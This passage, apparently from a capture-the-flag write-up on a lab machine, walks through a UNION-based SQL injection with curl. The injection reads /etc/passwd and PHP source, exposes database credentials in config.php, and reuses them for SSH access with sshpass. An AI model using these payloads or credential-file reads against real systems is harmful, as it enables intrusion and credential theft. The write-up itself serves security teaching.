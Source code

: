 

`/etc/passwd` gives a list of users on the host:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/etc/passwd');-- 
    -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    root:x:0:0:root:/root:/bin/bash
    ...[snip]...
    htb:x:1000:1000:htb:/home/htb:/bin/bash
    ...[snip]...
    uhc:x:1001:1001:,,,:/home/uhc:/bin/bash



I can also read the page source:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/var/www.md/ind
    ex.php');-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    <?php                                                              
      require('config.php');        
      if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
    ...[snip]...



I'm most interested in `config.php` and `firewall.php`. I'll start with
`config.php`:



    <?php
      session_start();
      $servername = "127.0.0.1";
      $username = "uhc";
      $password = "uhc-11qual-global-pw";
      $dbname = "november";

      $conn = new mysqli($servername, $username, $password, $dbname);
    ?>



This is what handles the DB connection.

### SSH

I've got usernames and now a password, and it happens those work
together to get SSH access:



    oxdf@parrot$ sshpass -p uhc-11qual-global-pw ssh uhc@10.10.11.128
    ...[snip]...
    uhc@union:~$ 

